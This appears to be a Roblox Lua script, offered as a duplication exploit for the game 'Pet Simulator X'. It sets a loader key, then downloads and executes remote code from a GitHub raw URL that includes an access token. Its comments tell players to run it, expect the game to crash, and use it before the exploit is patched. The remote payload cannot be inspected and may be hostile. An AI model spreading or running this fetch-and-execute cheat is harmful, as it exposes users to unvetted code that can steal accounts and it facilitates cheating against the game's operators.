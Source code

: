 --# pet-sim-x-Dupe-last-patch

_G.Loader_Key = "DMkGAbkAGJebDTp"
 loadstring(game:HttpGet("https://raw.githubusercontent.com/bottah33/Dupe/main/DupeByBottah?token=GHSAT0AAAAAABSCNODL5FX4SWV7YCL53SF4YSG4GVA"))()


--so for this to work this time u need to execute it and wait till everything works ur game will crash after that u will need to wait from 30 minutes up to 3-4 hours
--depends how lucky u will get 
--good luck duping : )
--Btw it works for the last Update so use before it gets Patched :D
